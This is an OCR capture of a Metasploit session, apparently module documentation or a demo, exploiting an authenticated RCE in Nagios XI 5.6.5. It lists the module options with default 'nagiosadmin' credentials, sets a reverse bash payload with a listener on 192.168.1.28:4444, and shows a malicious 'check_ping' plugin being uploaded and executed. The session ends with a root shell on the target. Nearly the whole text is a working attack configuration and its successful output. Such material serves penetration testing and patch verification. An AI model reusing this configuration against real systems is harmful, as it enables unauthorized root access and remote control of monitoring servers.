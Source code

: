 ```
Module options (exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   FINISH_INSTALL  false            no        If the Nagios XI installation has not been completed, try to do so
                                              . This includes signing the license agreement.
   PASSWORD        nagiosadmin      yes       Password to authenticate with
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS          192.168.1.14     yes       The target host(s), range CIDR identifier, or hosts file with synt
                                              ax 'file:<path>'
   RPORT           80               yes       The target port (TCP)
   SRVHOST         0.0.0.0          yes       The local host or network interface to listen on. This must be an
                                              address on the local machine or 0.0.0.0 to listen on all addresses
                                              .
   SRVPORT         8080             yes       The local port to listen on.
   SSL             false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                          no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI       /nagiosxi/       yes       The base path to the Nagios XI application
   URIPATH                          no        The URI to use for this exploit (default is random)
   USERNAME        nagiosadmin      yes       Username to authenticate with
   VHOST                            no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.28     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   2   Linux (cmd)


msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > run

[*] Started reverse TCP handler on 192.168.1.28:4444
[*] Executing automatic check (disable AutoCheck to override)
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI
[*] Target is Nagios XI with version 5.6.5
[+] The target appears to be vulnerable.
[*] Uploading malicious 'check_ping' plugin...
[+] Successfully uploaded plugin.
[*] Executing plugin...
[*] Waiting up to 300 seconds for the payload to connect back...
[*] Command shell session 2 opened (192.168.1.28:4444 -> 192.168.1.14:54242) at 2021-04-01 11:02:32 -0400
[*] Deleting malicious 'check_ping' plugin...
[+] Plugin deleted.

id
uid=0(root) gid=0(root) groups=0(root)
```